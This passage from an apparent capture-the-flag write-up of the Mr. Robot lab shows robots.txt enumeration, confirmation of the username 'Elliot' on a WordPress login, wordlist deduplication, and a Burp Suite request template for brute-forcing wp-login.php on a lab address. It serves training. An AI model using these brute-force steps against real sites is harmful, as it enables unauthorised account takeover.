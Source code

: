 ```
===============================================================
```

⇒ we know that there is a login page and file robots.txt. /wp-admin is denied when we access

### [Exploit]

- In file robots.txt, there are 2 file that we can acess

```
User-agent: *
fsocity.dic // wordlist
key-1-of-3.txt  // the first key
```

- In login page, we know that in Mr.Robot film, there is a name Elliot, so we will try that name first

![Screenshot 2024-04-29 104246.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/0051f2f0-1646-4504-bd84-e934e510268c/c3aba19c-3378-456c-838a-c0860212c6af/Screenshot_2024-04-29_104246.png)

                                     ⇒ so this username exists  

- Remmember the wordlist fsocity.dic, i think that it can be the password here. However, it has too many duplicate words so we have to remove all the duplicates

```
┌──(kali㉿kali)-[~/Downloads]
└─$  wc -l fsocity.dic
858160 fsocity.dic
                                                                                                                                                  
┌──(kali㉿kali)-[~/Downloads]
└─$ sort -u fsocity.dic > uniq-fscoity.dic
                                                                                                                                                  
┌──(kali㉿kali)-[~/Downloads]
└─$ wc -l uniq-fscoity.dic 
11451 uniq-fscoity.dic // it has resized to 11k words                                                                                                                                            
```

- Next we have to brute force all the passwords and i use the burpsuite pro in this case bc normal burpsuite will take a lot of time

```
POST /wp-login.php HTTP/1.1
Host: 10.10.153.211
.......
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.153.211/wp-login.php
........
// add variable for value of password
log=Elliot&pwd=§asdasd§&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.153.211%2Fwp-admin%2F&testcookie

```
